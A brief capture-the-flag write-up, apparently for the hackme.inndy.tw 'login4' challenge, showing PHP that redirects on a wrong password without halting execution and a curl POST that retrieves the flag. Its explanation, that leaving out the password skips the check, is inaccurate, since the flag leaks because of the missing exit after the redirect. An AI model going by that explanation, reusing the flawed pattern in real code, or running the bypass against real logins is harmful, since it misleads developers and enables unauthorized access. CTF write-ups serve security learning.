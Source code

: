 admin 4
===

```php
if($_POST['name'] === 'admin') {
    if($_POST['password'] !== $password) {
        // show failed message if you input wrong password
        header('Location: ./?failed=1');
    }
}

if($_POST['name'] === 'admin'): /* login success! */ ?>
    <div class="alert alert-success"><code><?=$flag?></code></div>
```

本頁面有判斷密碼機制，但如上方關鍵代碼所示，使用 POST 方法送出 name 與 password 兩個參數，但不送 password 即可繞過上方的 `if($_POST['password'] !== $password)` 判斷。

```bash
curl -d "name=admin" https://hackme.inndy.tw/login4/
```